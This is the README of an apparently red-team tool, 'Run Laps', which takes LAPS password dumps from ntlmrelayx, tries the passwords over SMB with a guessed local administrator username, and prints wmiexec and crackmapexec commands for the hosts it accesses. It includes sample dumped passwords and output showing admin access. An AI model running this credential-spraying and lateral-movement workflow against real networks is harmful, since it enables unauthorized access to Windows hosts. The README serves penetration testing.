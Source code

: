 
<h4 align="center">Run Laps</h4>
<p align="center">
  <a href="https://twitter.com/sho_luv">
  <img src="https://img.shields.io/badge/Twitter-%40sho_luv-blue.svg">
  </a>
</p>

### Why:
Sometimes organizations change the name of their local administrator account. I have twice now been in a scenario where I was able to dump LAPS passwords but did not know the local administrator username because I did not have shell or domain creds yet. This can happen with ldap dump attacks. 

If you have domain creds you can use impacket to lookup the sids with the tool [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py). However, if you do not have domain credentials you can always bruteforce the local admin username. This tool will help facilitate that effort.

### Example Laps Dump:

This is a tool to parse laps dumps files and test the password against the identified host in the file with a user supplied username. 
LAPS dumps can very from tool to tool, for instance this is what a dump looks like from `ntlmrelayx` with the `--dump-laps` option:

```plain
DN:CN=WINM9132S7S,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:S;5(7#8{h/i9M7E#
DN:CN=WIN4K6AI09J,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:Y87]@Y/bW&F5TVKT
DN:CN=WIN4K6AI0OL89J,OU=SHOLUV,OU=ACME_Computers,DC=ACME,DC=local
Password:S;5(7#8{h/i9M7E#

```


# Usage:
```
./runLAPS.py 
usage: runLAPS.py [-h] [-f laps file] [-u username or file] [-v] [-port [destination port]]

This program reads LAPS dumps and attempts to verify them

optional arguments:
  -h, --help            show this help message and exit
  -f laps file          ntlmrelayx laps format file
  -u username or file   username or file to try
  -v, --verbose         view verbose messages

connection:
  -port [destination port]
                        Destination port to connect to SMB Server
root@Id10t:~/work/mydev/run-laps# 

```

If you determine the username is `fido` you can feed this file into run-laps.py

### Example Run:
```
./run-laps.py -f laps-file.txt -u fido
```

### Example output:
```
Testing host: WINDOWS10-B and password: S;5(7#8{h/i9M7E# with username: fido
[*] Windows 10.0 Build 19041 0 (name:WINDOWS10-B) (domain:hackme.local) (signing:False) (SMBv1:False) Owned!!
[*] Local accounts admin rights:
[*] wmiexec.py 'sho_luv:S;5(7#8{h/i9M7E#'@192.168.86.84
[*] crackmapexec smb WINDOWS10 -u sho_luv -p S;5(7#8{h/i9M7E#


Testing host: WINDOWS10-A and password: Y87]@Y/bW&F5TVKT with username: fido
[*] Windows 10.0 Build 19041 0 (name:WINDOWS10-A) (domain:hackme.local) (signing:False) (SMBv1:False)
[*] Local accounts without admin rights:
[*] wmiexec.py 'notadmin:Y87]@Y/bW&F5TVKT'@192.168.86.84
[*] crackmapexec smb WINDOWS10 -u notadmin -p Y87]@Y/bW&F5TVKT

```


